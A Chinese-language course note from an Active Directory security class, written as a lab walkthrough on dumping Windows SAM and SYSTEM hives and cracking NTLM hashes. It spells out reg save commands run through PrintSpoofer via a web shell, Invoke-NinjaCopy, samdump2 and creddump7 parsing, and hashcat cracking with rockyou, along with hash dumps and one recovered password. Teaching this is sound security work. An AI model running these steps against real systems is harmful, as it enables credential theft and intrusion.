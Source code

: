```yaml
---
title: NTUSTISC - AD Note - Lab(Brute Force SAM)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Brute Force SAM)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
得到更高權限之後，會想要更多的密碼
* 密碼收集
    * SAM.hive(Security Account Manager)
        * What: 就是一個用於windows的數據庫文件，用於==儲存用戶的密碼==，並且對於本地端或遠端的使用者進行身分認證
        * Where: `C:\Windows\System32\config\SAM`
    * Password Spraying(用猜的)
    * GPO
    * 記憶體(lsass)
## Lab
### ==Brute Force SAM==
前面有提到SAM在哪裡，所以只要直接打開就看的到密碼了嗎?你會得到一個access denied的錯誤，原因是他已經被設定成read lock了，導致目前無法正常存取
![](https://hackmd.io/_uploads/SyEUVnMRn.png)

1. 匯出SAM File
主要目的就是把SAM file和SYSTEM file dump下來，而方法就是利用reg.exe(Windows註冊碼工具)，用指令的方式存取
    ```bash!
    $ reg save HKLM\SAM <save filename>
    $ reg save HKLM\SYSTEM <save filename>
    ```
    * 錯誤的方式
        但經過cmd用普通權限實測會發現我們沒有這樣的資格
        ```bash!
        $ reg save HKLM\SAM SAM.dump
        錯誤: 用戶端沒有這項特殊權限。
        ```
        其實也很合理，不然所有人都可以直接存取意味著只要摸到其中一臺普通權限的AD，所有機敏資料都會外洩，這就是為甚麼前面需要提權的原因，只有最高權限的帳戶可以存取這兩個file
    * 正確的方式-1
        用前面提到的web shell，打出以下指令，則SAM file就會dump到`C:\inetpub\wwwroot\sam.zip`
        ```bash!
        $ c:\tools\PrintSpoofer64.exe -c "reg save HKLM\SAM C:\inetpub\wwwroot\sam"
        ```
    * 正確的方式-2
        利用[Invoke-NinjaCopy.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1)這個腳本，就可以複製出來，原理是使用windows的影子複製
        ```bash!
        $ .\Invoke-NinjaCopy -Path SAM -LocalDestination C:\tools\SAM_COPY
        ```
        但是經過實測，發現執行雖然有成功但是沒有任何檔案被dump出來，可能中間有些過程有誤?
        :::info
        如果要用這個方法，PowerShell要以管理員權限打開，然後如果有遇到如下error message，可以參考這邊[^ps-error-solution]解決問題
        ```bash
        .\Invoke-NinjaCopy : 因為這個系統上已停用指令碼執行，所以無法載入 C:\tools\Invoke-NinjaCopy.ps1 檔案。如需詳細資訊，請參閱 about_Execution_Policies，網址為 https:/go.microsoft.com/fwlink/?LinkID=135170。
        位於 線路:1 字元:1
        + .\Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestina ...
        + ~~~~~~~~~~~~~~~~~~
            + CategoryInfo          : SecurityError: (:) [], PSSecurityException
            + FullyQualifiedErrorId : UnauthorizedAccess
        ```
        :::
2. 解析SAM內容
    拿到SAM的內容之後還需要解析他，可以用kali的samdump2解析
    * Win10 v1607之前的解法
        ```bash
        $ samdump2 system sam 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        :1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
        ![](https://hackmd.io/_uploads/HyJXHazCn.png)
        可以看到很多都是disabled，就代表我們要用下面的解法
    * Win10 v1607之後
    因為這個版本之後有用到AES加密，所以可以用[Creddump7](https://github.com/CiscoCXSecurity/creddump7)，建議使用anaconda這樣的虛擬環境，不然直接用內建的virtualenv會出事，
        ```bash
        $ conda activate py2.7
        $ pip install pycrypto
        $ git clone https://github.com/CiscoCXSecurity/creddump7.git
        $ python pwdump.py system sam
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ecffff0c3548187607a14bad0f88bb1:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e3180c5331aad6ad1ac787749e6c4819:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        low:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
3. 解析Hash
    * 方法一：用online database
        接著就是把NTLM Hash丟到隨便的database看有沒有紀錄，例如[cmd5](https://www.cmd5.com/)，如果把最前面找到的`31d6cfe0d16ae931b73c59d7e0c089c0`會顯示空密碼，但我們都知道是錯的
        ![](https://hackmd.io/_uploads/SkKrp6zCn.png)
        而如果拿Creddump解析出來的`7ecffff0c3548187607a14bad0f88bb1`，就可以直接顯示出我們的密碼
        ![](https://hackmd.io/_uploads/H1ZAhpz02.png)
    * 方法二：爆字典檔
        在kali中的/usr/share/wordlists有一些字典檔可以用，例如rockyou等等，可以先用看看
        ```bash
        $ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        $ cp /usr/share/wordlists/rockyou.txt ./
        $ hashcat -a 0 -m 1000 ntlm.hash rockyou.txt --force
        ...
        31d6cfe0d16ae931b73c59d7e0c089c0:                         
        7ecffff0c3548187607a14bad0f88bb1:1qaz@WSX3edc
        ...
        ```

# Reference
[^ps-error-solution]:[PowerShell 「系統上已停用指令碼執行」解決方法](https://hackercat.org/windows/powershell-cannot-be-loaded-because-the-execution-of-scripts-is-disabled-on-this-system)